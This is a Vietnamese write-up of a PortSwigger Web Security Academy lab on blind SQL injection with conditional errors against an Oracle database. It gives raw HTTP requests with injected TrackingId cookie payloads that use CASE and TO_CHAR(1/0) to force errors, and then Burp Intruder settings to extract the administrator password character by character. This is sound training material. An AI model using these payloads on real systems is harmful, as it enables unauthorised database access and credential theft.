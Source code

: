 # [Lab: Blind SQL injection with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

Lỗ hổng: Blind SQLi, khác biệt khi làm cho query có lỗi.

Đề bài: oracle db, The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

1. Kiểm tra lỗ hổng SQLi ở Cookie
```
GET / HTTP/1.1
Host: 0ac80082033dfc80c4f66ee0001e00cf.web-security-academy.net
Cookie: TrackingId=HqY1TotPAdJ0VgkD';
```
Kết quả:
![1c707de02ab3fb49c9929e61d70200e9.png](../../../../../../_resources/1c707de02ab3fb49c9929e61d70200e9.png)

2. Thử thay đổi giá trị của `TrackingId` và so sánh với khi gửi `TrackingId` đúng:
![ec2bd289759b423dac8964fcae6c81b4.png](../../../../../../_resources/ec2bd289759b423dac8964fcae6c81b4.png)
Không có gì khác biệt.
3. => Khi làm query xuất hiện lỗi thì sẽ nhận được http 500
4. Tìm độ dài mật khẩu của admin (bảng gốc có 1 cột):
- Payload position:
```http
GET / HTTP/1.1
Host: 0a64001f0343d514c3733e73004a00e0.web-security-academy.net
Cookie: TrackingId=wjedaQiNI5b8iB4R'+UNION+SELECT+CASE+WHEN+username='administrator'+AND+LENGTH(password)%3d§§+THEN+TO_CHAR(1/0)+ELSE+'a'+END+FROM+users--
```
- Payload: 1-> 30
- Sử dụng `CASE` để kích hoạt lỗi khi độ dài mật khẩu đã đoán đúng
- Kết quả: ![9b7a2554c639aba3c80fb21cf72c9b63.png](../../../../../../_resources/9b7a2554c639aba3c80fb21cf72c9b63.png)
- => Độ dài mật khẩu là 20.
5. Tìm mật khẩu: dùng hàm SUBSTR (trong oracle) để lấy từng kí tự trong mật khẩu ra và so sánh với tất cả kí tự có thể và quan sát phản hồi.
- Dùng intruder với attack mode là Cluster bomb
- Payload position có ở 2 chỗ:
```
GET / HTTP/1.1
Host: 0a5600bf03f79d08c0d9bee70045003c.web-security-academy.net
Cookie: TrackingId=wjedaQiNI5b8iB4R'+UNION+SELECT+CASE+WHEN+username='administrator'+AND+SUBSTR(password,§§,1)%3d'§§'+THEN+TO_CHAR(1/0)+ELSE+'a'+END+FROM+users--;
```
- Payload gồm 2 set:
	- Set 1: số từ 1->20 (độ dài password tìm được ở bước 4) để truyền vào hàm SUBSTRING
	- Set 2: a->z, A->Z, 1->9, giả sử mật khẩu chỉ bao gồm các kí tự này
- Chạy attack và dùng filter để lọc ra những response 500
- ![dd231aa32f15c9016d1566ccdd137393.png](../../../../../../_resources/dd231aa32f15c9016d1566ccdd137393.png)
- Ghép lần lượt các payload 2 theo thứ tự tăng dần của payload 1 => mật khẩu của admin
8. Đăng nhập tài khoản admin => Lab Solved

Nên tham khảo solution ở bài gốc